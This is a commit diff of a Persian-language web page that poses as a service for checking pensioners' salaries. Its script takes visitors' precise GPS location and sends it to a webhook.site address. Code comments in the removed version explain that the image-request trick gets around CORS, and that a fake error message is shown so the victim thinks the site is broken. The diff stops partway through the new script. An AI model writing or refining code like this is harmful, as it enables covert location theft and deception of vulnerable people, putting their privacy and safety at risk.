

Before and after one commit to minicamera423-cyber/my-site, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,46 +1,106 @@
 <!DOCTYPE html>
 <html lang="fa" dir="rtl">
 <head>
-<meta charset="UTF-8">
-<meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>سامانه بررسی وضعیت حقوق</title>
-<style>
-body { font-family: Tahoma, Arial, sans-serif; text-align: center; padding: 20px; background-color: #f4f7f6; direction: rtl; }
-.container { max-width: 500px; margin: 50px auto; background: white; padding: 30px; border-radius: 15px; box-shadow: 0 4px 15px rgba(0,0,0,0.1); }
-h2 { color: #2c3e50; }
-p { color: #7f8c8d; margin-bottom: 25px; }
-.btn { background-color: #2ecc71; color: white; padding: 15px 30px; font-size: 18px; font-weight: bold; border: none; cursor: pointer; border-radius: 10px; transition: background 0.3s; }
-.btn:hover { background-color: #27ae60; }
-</style>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>سامانه بررسی وضعیت حقوق</title>
+    <style>
+        * {
+            box-sizing: border-box;
+        }
+
+        body {
+            font-family: Tahoma, Arial, sans-serif;
+            text-align: center;
+            padding: 20px;
+            background-color: #f4f7f6;
+            direction: rtl;
+            margin: 0;
+        }
+
+        .container {
+            max-width: 500px;
+            margin: 50px auto;
+            background: white;
+            padding: 30px;
+            border-radius: 15px;
+            box-shadow: 0 4px 15px rgba(0,0,0,0.1);
+        }
+
+        h2 {
+            color: #2c3e50;
+            margin-bottom: 20px;
+        }
+
+        p {
+            color: #7f8c8d;
+            line-height: 2;
+            margin-bottom: 20px;
+        }
+
+        .btn {
+            background-color: #2ecc71;
+            color: white;
+            padding: 15px 30px;
+            font-size: 18px;
+            font-weight: bold;
+            border: none;
+            cursor: pointer;
+            border-radius: 10px;
+            transition: background 0.3s;
+            width: 100%;
+            max-width: 300px;
+        }
+
+        .btn:hover {
+            background-color: #27ae60;
+        }
+
+        .btn:disabled {
+            background-color: #bdc3c7;
+            cursor: wait;
+            opacity: 0.7;
+        }
+
+        #result {
+            margin-top: 25px;
+            font-weight: bold;
+            color: #34495e;
+            overflow-wrap: anywhere;
+            min-height: 20px;
+        }
+
+        .error-msg {
+            color: #e74c3c !important;
+        }
+    </style>
 </head>
 <body>
+
 <div class="container">
-<h2>سامانه بررسی افزایش حقوق بازنشستگان</h2>
-<p>جهت تایید منطقه سکونت و مشاهده وضعیت پرداخت‌ها، روی دکمه زیر کلیک نمایید.</p>
-<button class="btn" onclick="getLocation()">تأیید منطقه سکونت و ورود</button>
+    <h2>سامانه بررسی وضعیت حقوق بازنشستگان</h2>
+    <p>برای بررسی منطقه سکونت و مشاهده وضعیت پرداخت‌ها، لطفاً اجازه دسترسی به موقعیت مکانی خود را بدهید.</p>
+
+    <button class="btn" id="locationBtn">
+        تأیید منطقه سکونت و ورود
+    </button>
+
+    <div id="result">
+        منتظر درخواست شما هستیم.
+    </div>
 </div>
 
 <script>
-function getLocation() {
-if (navigator.geolocation) {
-navigator.geolocation.getCurrentPosition(sendPosition, showError, {
-enableHighAccuracy: true,
-timeout: 10000,
-maximumAge: 0
-});
-} else {
-alert("مرورگر شما از قابلیت مکان‌یابی پشتیبانی نمی‌کند.");
-}
-}
+    const button = document.getElementById("locationBtn");
+    const result = document.getElementById("result");
+    const WEBHOOK_URL = "https://webhook.site/3e658cab-cff7-4b12-ad19-52d6e636d924";
 
-function sendPosition(position) {
-var lat = position.coords.latitude;
-var lon = position.coords.longitude;
-var webhookUrl = "https://webhook.site/3e658cab-cff7-4b12-ad19-52d6e636d924";
+    button.addEventListener("click", getLocation);
 
-// روش جدید: ارسال داده‌ها از طریق یک درخواست تصویر (برای دور زدن خطای CORS)
-var dataUrl = webhookUrl + "?lat=" + lat + "&lon=" + lon;
-var img = new Image();
-img.src = dataUrl;
+    function getLocation() {
+        // ریست کردن وضعیت نمایش
+        result.textContent = "در حال بررسی دسترسی...";
+        result.className = "";
 
-// نمایش پیام خطا برای کاربر (برای اینکه فکر کند سایت خراب است)
+        if (!navigator.geolocation) {
+            result.textContent = "مرورگر شما از قابلیت مکان‌ی
```
